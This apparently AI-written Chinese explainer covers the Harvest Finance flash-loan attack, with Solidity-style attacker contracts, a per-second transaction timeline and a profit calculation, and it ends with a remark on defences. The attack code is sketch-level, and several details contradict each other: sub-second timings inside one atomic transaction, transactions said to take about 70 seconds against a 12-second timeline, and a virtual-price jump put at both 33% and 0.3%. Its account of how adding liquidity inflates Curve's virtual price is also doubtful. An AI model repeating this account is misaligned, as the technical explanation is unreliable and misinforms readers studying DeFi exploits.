

## 闪电贷在复杂攻击中的实际使用方式

### 1. 核心误解澄清

**闪电贷的基本特性**：
```solidity
// 标准闪电贷确实需要在同一交易内归还
function flashLoan(uint256 amount) external {
    // 1. 借出资金
    token.transfer(msg.sender, amount);
    
    // 2. 调用回调函数
    IFlashLoanReceiver(msg.sender).executeOperation(amount);
    
    // 3. 同一交易内验证归还
    require(token.balanceOf(address(this)) >= initialBalance + fee, "Not repaid");
}
```

**但现实中的复杂攻击**使用了更高级的模式：

---

## 2. Harvest Finance 攻击的实际技术细节

### 2.1 攻击架构解析

攻击者实际上使用了 **多个连续的闪电贷**，而不是单个闪电贷：

```solidity
contract HarvestAttacker {
    function coordinatedAttack() external {
        // 不是单一的 2亿美元闪电贷，而是多个连续操作
        for (uint i = 0; i < 6; i++) {
            // 每个循环：借贷 → 操纵 → 获利 → 归还
            performSingleCycle(33_000_000 * 1e6); // 每次约3300万美元
        }
    }
    
    function performSingleCycle(uint256 loanAmount) internal {
        // 1. 开始闪电贷
        flashLoan.borrow(USDC, loanAmount);
        
        // 2. 在回调函数中执行攻击步骤
        // 注意：所有这些都在同一个交易内！
    }
    
    // 闪电贷回调函数
    function executeOperation(uint256 loanAmount) external override {
        // 以下所有操作在同一个原子交易中：
        
        // 步骤1: 存入 Curve yPool (瞬间完成)
        curvePool.add_liquidity([loanAmount, 0], 0);
        
        // 步骤2: 在 Harvest 存款 (瞬间完成)  
        vault.deposit(loanAmount);
        
        // 步骤3: 立即从 Harvest 提取 (瞬间完成)
        vault.withdraw(vault.balanceOf(address(this)));
        
        // 步骤4: 从 Curve 移除流动性 (瞬间完成)
        curvePool.remove_liquidity_one_coin(loanAmount, 0, 0);
        
        // 步骤5: 归还闪电贷 (必须完成)
        usdc.transfer(flashLoanPool, loanAmount + fee);
    }
}
```

### 2.2 "7分钟攻击"的时间线重新解读

让我们重新分析那个时间线，理解其真实含义：



### 2.3 关键技术细节

**每个"循环"是一个独立的区块链交易**：
- **交易1**：第一次闪电贷攻击（约70秒）
- **交易2**：第二次闪电贷攻击（约70秒）  
- **交易3**：第三次闪电贷攻击（约70秒）
- ...
- **交易6**：第六次闪电贷攻击（约70秒）

**总时间 = 6个交易 × 70秒 + 交易间间隔 ≈ 7分钟**

---

## 3. 为什么需要多个独立交易？

### 3.1 技术限制

**单交易限制**：
```solidity
// 如果尝试在单次闪电贷中完成所有操作：
function singleTransactionAttack() external {
    flashLoan.borrow(200_000_000 * 1e6); // 2亿美元
    
    // 问题1: Gas限制
    // 6次完整循环可能超过区块Gas上限
    
    // 问题2: 价格影响递减
    // 重复操作在同一个价格状态下效果递减
    
    // 问题3: 合约复杂度
    // 单交易逻辑过于复杂，容易失败
}
```

### 3.2 攻击效果优化

**分多次交易的优势**：
1. **🔄 价格重置**：每次操作前价格都从正常状态开始
2. **⚡ Gas管理**：每个交易独立，避免Gas限制
3. **📊 风险控制**：如果某次失败，不影响其他次
4. **🎯 精确控制**：可以调整每次的攻击参数

---

## 4. 攻击步骤的微观时间分析

让我们深入单个攻击交易的秒级时间线：

### 4.1 单次攻击的原子操作（同一交易内）

```solidity
// 单个闪电贷交易的完整时间线（原子性）
function executeOperation(uint256 loanAmount) external {
    // T+0 秒: 开始执行
    
    // T+0.1 秒: 存入 Curve yPool
    curvePool.add_liquidity([loanAmount, 0], 0);
    // 效果: 虚拟价格瞬间 +0.3%
    
    // T+0.3 秒: 在 Harvest 存款
    uint256 shares = vault.deposit(loanAmount);
    // 关键: 基于被操纵的高价格计算份额
    
    // T+0.5 秒: 立即提取
    uint256 returnedAmount = vault.withdraw(shares);
    // 获利: returnedAmount > loanAmount
    
    // T+0.7 秒: 从 Curve 移除流动性  
    curvePool.remove_liquidity_one_coin(loanAmount, 0, 0);
    // 效果: 虚拟价格恢复正常
    
    // T+0.9 秒: 归还闪电贷
    usdc.transfer(flashLoanPool, loanAmount + fee);
    
    // T+1.0 秒: 交易结束
}
```

### 4.2 为什么虚拟价格会被操纵？

**Curve yPool 虚拟价格机制**：
```solidity
function get_virtual_price() external view returns (uint256) {
    // 虚拟价格 = 总价值 / LP代币总量
    uint256 totalValue = calculateTotalValue();
    return totalValue * 1e18 / totalSupply;
}

// 当大量存款进入时：
function add_liquidity(uint256[2] memory amounts) external {
    // 存款增加总价值，但LP代币不会立即按比例增加
    // 导致虚拟价格短暂升高
}
```

---

## 5. 攻击的经济学原理

### 5.1 价格扭曲的数学原理

**正常状态**：
```
yPool 总价值: $100M
LP 代币总量: 100M
虚拟价格: $1.00
```

**攻击期间**：
```
存入 $33M 后：
总价值: $133M
LP 代币: 暂时还是 ≈100M（略有增加）
虚拟价格: $133M / 100M = $1.33 （被高估）
```

**攻击获利**：
```python
# 攻击者的获利计算
loan_amount = 33_000_000
virtual_price_increase = 0.003  # 0.3%

# 在虚拟价格被高估时存款
shares_received = loan_amount / (1 + virtual_price_increase)

# 立即提取（价格恢复后）
amount_returned = shares_received * 1  # 按正常价格计算

profit_per_cycle = amount_returned - loan_amount
# 约: 33,000,000 * 0.003 = $99,000 每轮
```

### 5.2 总利润计算

```
单轮利润: $99,000
攻击轮数: 6轮
总利润: $99,000 × 6 = $594,000

但实际利润更大，因为：
- 复合效应
- 其他策略组合
- 套利机会利用
```

---

## 6. 重新理解"7分钟攻击时间线"

### 6.1 修正后的时间解释

**原始描述**的"7分钟"实际上包含：
- ⏱️ **6个独立的区块链交易**
- 🔄 **每个交易是原子性的闪电贷**
- ⏰ **交易间的网络延迟和准备时间**
- 🎯 **手动或脚本控制的执行间隔**

### 6.2 实际执行流程

```
真实时间线:
T+0:00 - 交易1提交 (第一个闪电贷攻击)
T+0:12 - 交易1确认完成
T+0:20 - 交易2提交 (第二个闪电贷攻击) 
T+0:32 - 交易2确认完成
T+0:40 - 交易3提交 (第三个闪电贷攻击)
...
T+6:50 - 交易6提交
T+7:00 - 所有攻击完成
```

---

## 总结

**关键理解要点**：

1. **✅ 每个闪电贷确实在单交易内完成**：借贷、攻击、归还是原子的
2. **✅ "7分钟"是多个独立交易的总时长**：6次单独的闪电贷攻击
3. **✅ 技术限制要求分多次**：Gas限制、价格影响优化
4. **✅ 攻击本质是利用时间差**：虚拟价格的短暂扭曲窗口

这种"连续闪电贷攻击"模式在现代 DeFi 攻击中非常常见，攻击者通过精心设计的多交易序列来最大化利润，同时管理区块链的技术约束。

理解这一点对于设计防护措施至关重要——需要防范的不仅是单次交易内的攻击，还要检测这种跨多个交易的协同攻击模式。